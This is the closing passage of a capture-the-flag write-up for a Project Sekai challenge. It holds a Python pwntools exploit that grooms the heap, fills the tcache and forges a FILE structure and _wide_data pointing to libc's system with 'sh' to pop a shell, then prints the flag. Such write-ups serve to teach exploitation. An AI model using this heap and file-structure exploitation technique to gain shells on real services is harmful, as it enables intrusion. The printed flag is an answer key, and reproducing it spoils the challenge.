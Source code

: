```python
    libc_base + 0x203948, libc_base + 0x203950,

    # fake vector data - points to fake project
    heap_base + 0x16410,
)
payload += b"a"*(0x410 - len(payload))
p.sendline(payload)

move_worker(b"john23", b"aa")

# fill up tcache
for i in range(7):
    fire_worker(b"john" + str(i).encode())

# free chunks and make the fake file
for i in range(22, 30):
    fire_worker(b"john" + str(i).encode())

p.sendline(b"a"*0x410)

# forge fake file
payload = flat({
    # file
    0x40 + 0x00: b"  sh",
    0x40 + 0x20: 0,
    0x40 + 0x28: 1,
    0x40 + 0x88: libc_base + 0x205710,
    0x40 + 0xa0: heap_base + 0x14d30,
    0x40 + 0xd8: libc_base + 0x202228
}, filler=b"\x00")
payload += b"\x00"*(0x1f0 - len(payload))
p.sendline(payload)

# forge _wide_data
payload = flat({
    0x18: 0x0,
    0x30: 0x0,
    0xd8: libc.sym.system + libc_base,
    0xe0: heap_base + 0x14e08 - 0x68
}, filler=b"\x00")
payload += b"\x00"*(0xe0 - len(payload))
p.sendline(payload)

p.sendline(b"exit")

p.interactive()
# SEKAI{make_sure_to_pay_attention_to_your_truth_tables!_44bc24}
```

---

Really fun challenges by Project Sekai! And thanks for reading :)
